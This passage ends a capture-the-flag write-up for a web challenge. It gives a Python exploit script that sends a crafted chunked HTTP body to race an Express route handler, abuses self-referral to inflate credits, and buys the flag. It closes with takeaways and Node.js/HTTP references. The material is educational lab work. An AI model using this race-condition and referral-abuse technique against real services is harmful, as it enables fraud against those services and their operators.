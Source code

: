 ```python
# Generate chunks to send
code = requests.get('http://localhost:3000/code', cookies={'token': token}).text.split('<strong>')[1].split('</strong>')[0]
code_chunk = b'refer=' + code.encode()

# Complete request to create a self-referring account
connection.send(
    (
        f'{len(code_chunk):X}\r\n'.encode() +
        code_chunk +
        b'\r\n' +
        b'0'
        b'\r\n' # end of the zero chunk
        b'\r\n' # end of the whole body (not necessary?)
    )
)

# Create an account that increase our original account's refer count
requests.post('http://localhost:3000/new', data={'refer':code})

# Increase the ref count by 1.5
for _ in range(70):
    requests.get('http://localhost:3000/cashout', cookies={'token': token})

# Buy the FLAG
flag = requests.get('http://localhost:3000/buy', cookies={'token': token}).text.split('<p>')[1].split('</p>')[0]
print(flag)
```

Flag is: `dice{007227589c05e703}`

![celebrating-flag](/images/2025-04-15-11-14-30.png)

## Conclusions

What we learned in this challenge:

1. **HTTP request body handling is asynchronous**
2. **Race conditions in Express route handlers**
3. **Self-referral logic abuse**

## References

If you're interested to learn more, here is a list of useful references:

- [Event-driven programming - Wikipedia](https://en.wikipedia.org/wiki/Event-driven_programming)
- [Node.js Events API](https://nodejs.org/docs/latest/api/events.html#events_emitter_on_event_listener)
- [Understanding `request.on(...)` in Node.js – Stack Overflow](https://stackoverflow.com/questions/12892717/in-node-js-request-on-what-is-it-this-on)
- [MDN: `RegExp` - Regular Expressions in JavaScript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp)
- [MDN: `Map.prototype.has`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Map/has)
- [MDN: `Map.prototype.get`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Map/get)
- [Node.js `http.ClientRequest` Class](https://nodejs.org/api/http.html#class-httpclientrequest)
- [YouTube: Node.js Stream Crash Course](https://www.youtube.com/watch?v=aTThXMRxmiE)
- [Difference between `res.end()` and `res.send()` – Stack Overflow](https://stackoverflow.com/questions/29555290/what-is-the-difference-between-res-end-and-res-send#49242271)
- [RFC 7230 – Hypertext Transfer Protocol (HTTP/1.1): Message Syntax and Routing](https://www.packetizer.com/rfc/rfc7230/)

